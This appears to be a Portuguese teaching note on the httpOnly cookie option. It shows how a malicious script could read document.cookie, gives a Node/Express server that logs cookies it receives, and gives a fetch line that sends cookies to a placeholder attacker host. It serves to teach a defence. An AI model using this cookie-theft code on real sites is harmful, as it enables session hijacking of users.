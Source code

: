 
> [!NOTE]
>
> Ilustração da importância da opção `httpOnly`.
>
> Sem a opção `httpOnly`, qualquer script *javascript* que corre numa página pode aceder aos *cookies* definidos pelo respetivo servidor. Embora isto possa não parecer um problema de segurança, dado tratar-se de um script da própria página, suponha que, de alguma forma, um atacante consiga inserir um código *javascript* malicioso numa página (*e.g.*, o atacante fornece alguma biblioteca potencialmente útil àquela página, mas inclui trechos de código maliciosos). Vamos ilustrar o que este código malicioso pode realizar, utilizando para isto a consola do *Web Developer Tools*:
> - Comece por aceder a algum site que utiliza *cookies*. Particularmente, procure por algum que defina *cookies* **sem a opção** `httpOnly`.
> - Uma vez neste site, carregue a consola do *Web Developer Tools*. Utilizaremos esta consola para emular o que o código do atacante poderia fazer. 
> - Como um primeiro passo, podemos mostrar os valores dos *cookies*:
> ```javascript
> console.log(document.cookie)
> ```
> - Como resultado, devemos ver os *cookies* e seus valores na consola.
> - Agora suponha que o atacante tenha configurado um simples servidor para receber os valores dos *cookies*. Em *nodejs*, por exemplo, podemos criar um servidor da seguinte forma:
> ```node
> const express = require("express");
> var cors = require('cors')
> 
> const PORT = 8080;
> const app = express();
> 
> var cookieList = [];
> 
> app.use(cors())
> 
> app.get("/cookies", function (req, res) {
> 
>     cookieList.push(req.query);
>     console.log("Just logged a new set of cookies from "
>         + req.socket.remoteAddress
>         + '. Values: ');
>     console.log(req.query);
>     
>     res.send("");
> });
> 
> app.listen(PORT, () => {
> 
>     console.log(`Example app listening on port ${PORT}`)
> })
> ```
> - O que este servidor faz é simplesmente criar um recurso denominado `/cookies` e registar os parâmetros da requisição num *array* (além de imprimi-los na consola).
> - De volta ao código *javascript* malicioso (a consola *Web Developer Tools*), o atacante pode enviar o valor dos *cookies* facilmente ao seu próprio servidor:
> ```javascript
> fetch("http://servidormalicioso.com/?" + document.cookie)
> ```
> - Como consequência, devemos ver os valores dos *cookies* da página carregada no *browser* impressos na consola do servidor *nodejs*.
>
> Note que é comum que servidores definam certos *cookies* sem a opção `httpOnly`. Isto não é necessariamente um problema de segurança, desde que a confidencialidade do valor do *cookie* não seja essencial.


